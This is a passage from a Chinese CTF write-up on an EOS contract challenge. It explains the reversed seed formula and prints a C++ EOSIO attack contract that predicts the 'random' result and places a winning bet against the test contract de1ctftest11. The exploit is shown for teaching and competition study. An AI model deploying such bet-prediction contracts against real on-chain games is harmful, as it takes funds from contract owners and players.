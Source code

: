 `new_seed = (old_seed + current_time) % prime`

其中 prime 便是汇编中的 65537，最后的细节就是函数返回处有个 i32.rem_u，这里是对 5 取余数（5是调用时候传入的参数$p1)，所以比赛hint中告知了范围是 0 — 4
1. 简单跟进我们就可以发现最后调用的 $f81 中含有 $env.db_update_i64 ，应该就是将计算的新 seed 保存回表中了
破译由C++编写并以wasm呈现的合约难度还是相当大的，比赛过程中我并没有采取该方式，在赛后借助官方 writeup 才一步步剖析的代码，不过相信不远的将来，针对 EOS 逆向的利器也将问世，只不过在那之前，逆向合约多少有点辛苦就是了



## 编写攻击合约

写 eos 下的合约有好也有不好，首先基于 C++ 这让多数程序员感到会轻松，毕竟算比较大众的语言了；但是由于 EOS 本身相较于 以太坊 就要复杂不少，其合约编写中需要注意的如接口、权限以及等等相对来说要麻烦很多，再继续往下读之前，我建议读者有时间把官网中相关的 [Get Start](https://developers.eos.io/eosio-home/docs) 篇章给过一遍，把基础打扎实

至少进行下一步之前，你需要明白了解如何在命令行中打开wallet，如何导入在 JUNGLE 中创建账户用的密钥以及基本的操作，这些操作请自行 google

我先给出标准（稍微简化）的答案一，注意以下测试都是针对测试合约 de1ctftest11 进行的

```
#include &lt;eosio/eosio.hpp&gt;
#include &lt;eosio/system.hpp&gt;
#define TARGET_ACCOUNT "de1ctftest11"
using namespace eosio;

class [[eosio::contract]] attack : public contract `{`
  private:

    int random(int oldseed, const int range)`{`
      // Generate new seed value using the existing seed value
      int prime = 65537;
      auto new_seed_value = (oldseed + (uint32_t)(eosio::current_time_point().sec_since_epoch())) % prime;

      // Get the random result in desired range
      int random_result = new_seed_value % range;
      return random_result;
    `}`

  public:
    using contract::contract;
    attack( name receiver, name code, datastream&lt;const char*&gt; ds ):contract(receiver, code, ds)`{``}`

    [[eosio::action]]
    void makebet(int oldseed)
    `{`
      // Ensure this action is authorized by the player
      require_auth(get_self());
      int random_num = random(oldseed, 5);
      print("make bet ", random_num);

      action(
        permission_level`{`get_self(),"active"_n`}`,  //所需要的权限结构
        name(TARGET_ACCOUNT),                          // 调用的合约名称
        "bet"_n,                              // 合约的方法
        std::make_tuple(get_self(), random_num) // 传递的参数
      ).send();
    `}`
`}`;
```
